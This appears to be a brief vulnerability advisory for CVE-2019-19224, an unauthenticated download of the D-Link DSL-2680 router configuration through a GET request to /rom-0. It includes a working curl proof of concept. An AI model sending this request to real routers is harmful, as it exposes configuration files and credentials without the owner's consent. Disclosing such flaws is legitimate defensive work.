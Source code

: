 ### CVE-2019-19224: DSL-2680 Broken Access Control - Download Router Configuration
**CVE:** CVE-2019-19224    
**Vulnerability Type**: Broken Access Control    
**Affected Product:** D-Link DSL-2680 - Firmware: EU_1.03    
**Affected Component:** D-Link DSL-2680: Web Administration Interface    
**Attack Type:** Remote    
**Impact:** Download router current configuration file without being authenticated on the admin interface    

**Description:**    
A Broken Access Control vulnerability in the D-Link DSL-2680 web administration interface (Firmware EU_1.03) allows an attacker to 
download the current configuration file by submitting a rom-0 GET request without being authenticated on the admin interface.

**Proof Of Concept:**    
As a proof-of-concept a GET request should be made to the following URI: `http://<x.x.x.x>/rom-0`    
After that the configuration file will be downloaded without authentication.    

Curl PoC (GET Request):    
```
curl http://192.168.1.1/rom-0 --output configFile
```
